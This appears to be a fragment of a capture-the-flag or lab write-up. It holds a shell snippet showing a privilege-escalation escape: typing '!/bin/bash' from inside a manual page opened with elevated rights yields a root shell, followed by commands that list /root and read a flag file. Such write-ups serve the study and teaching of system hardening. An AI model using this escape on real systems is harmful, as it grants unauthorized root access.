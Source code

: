 ```shell
# Once inside the manual page:
!/bin/bash
# You now have a root shell
cd /root
ls -l
cat flag
```
